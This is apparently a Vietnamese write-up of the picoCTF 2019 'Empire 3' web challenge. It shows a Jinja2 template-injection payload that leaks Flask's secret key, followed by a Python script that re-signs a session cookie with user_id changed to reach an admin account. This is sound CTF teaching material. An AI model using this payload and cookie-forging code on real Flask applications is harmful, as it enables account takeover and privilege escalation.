





#### Empire 3 ([Link](https://2019shell1.picoctf.com/problem/21884/))

- Tiếp tục vẫn là *ssti* như bài Empire 2

- Mới vào bài thì đập ngay cái payload kinh điển nhất của jinja2

  - `{{ config.items() }}`

- OK, giờ tuy ta không có flag nhưng ta có `secret key`, key này dùng để encode lại *flask cookie*, *flask cookie* decrypt thì dễ nhưng encode ngược lại thì cần key

  

- Vẫn *decrypt* *flask cookie* như bài trước để xem nó có gì nào

  

  

- Ta có thể thấy rõ *user id* của ta là 3, id 1 và 2 là của 2 admin

  

- Suy luận đơn giản thì có vẻ flag ở 1 trong 2 hoặc cả 2 acc admin kia. Tức là giờ chỉ cần đổi *user_id* từ 3 thành 1 hoặc 2 là được

- Ở đây ta cần 1 tool nho nhỏ để encode lại *flask cookie* dựa trên *secret key* ( tool này chạy trên python 2, và tool này mình coppy thôi, cũng không có gì đáng nói, đổi chỗ secret key, cookie cũ thành secret key, cookie của minh )

  ```python
  from flask.sessions import SecureCookieSessionInterface
  from itsdangerous import URLSafeTimedSerializer
  
  class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
      # Override method
      # Take secret_key instead of an instance of a Flask app
      def get_signing_serializer(self, secret_key):
          if not secret_key:
              return None
          signer_kwargs = dict(
              key_derivation=self.key_derivation,
              digest_method=self.digest_method
          )
          return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                        serializer=self.serializer,
                                        signer_kwargs=signer_kwargs)
  
  
  def decodeFlaskCookie(secret_key, cookieValue):
      sscsi = SimpleSecureCookieSessionInterface()
      signingSerializer = sscsi.get_signing_serializer(secret_key)
      return signingSerializer.loads(cookieValue)
  
  
  def encodeFlaskCookie(secret_key, cookieDict):
      sscsi = SimpleSecureCookieSessionInterface()
      signingSerializer = sscsi.get_signing_serializer(secret_key)
      return signingSerializer.dumps(cookieDict)
  
  cookie = decodeFlaskCookie('ac4f90406281bbd468b5909af89daee6',
                            '.eJwlz12qAjEMQOG99NmHJm2T1M0MzR-KoDCjT5e7dwdcwIHv_JUt9zhu5freP3Ep293LtWQjQzUWQER2xkWtMtkA1KiktBJ0cgjbGJAyqCUQV58dqptPFJFpva80bmNpU8DotYda2iC3IB0yunMsxlTBCiZT0qWq9nIpduy5vV-PeJ4eVwmpJi3QSGSRzJztVLkCkSAGzuYMZ_c5Yv9NtPL_BXafPrA.XabbNA.NOwDrWtOWZSwyQ1MGLKaWMqcemU')
  
  cookie[u'user_id'] = u'2'
  
  print encodeFlaskCookie('ac4f90406281bbd468b5909af89daee6',
                            cookie)
  ```

  

- OK, giờ đã có cookie, chỉ cần đổi cookie là có thể vào được 2 acc admin kia. Acc admin 1 không có nhưng acc admin 2 lại chưa flag

  
